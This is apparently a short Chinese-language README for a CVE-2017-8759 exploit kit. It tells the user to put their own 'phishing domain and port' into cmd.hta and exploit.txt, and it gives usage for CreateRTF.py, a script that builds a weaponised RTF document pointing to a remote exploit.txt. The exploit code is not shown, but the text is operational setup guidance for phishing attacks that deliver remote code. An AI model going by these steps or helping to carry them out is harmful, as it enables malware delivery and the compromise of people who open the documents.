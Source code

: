 # CVE-2017-8759
CVE-2017-8759  
如何使用?   
http://www.lz1y.cn/wordpress/?p=799  

cmd.hta文件修改  
http://192.168.211.149:80 为你的钓鱼域名 端口  <br>
同样修改 exploit.txt中  <br>
https://example.com
为你的钓鱼域名 端口  
<br>
发现很多朋友在BIN to RTF那里出现了问题，本人修改了下别人的脚本，利用创建RTF的函数重写了一个脚本  
<br>
### CreateRTF.py
usage:Test.py -f filename - u url  
filename: output file name  
url: http[s]://example.com/exploit.txt  
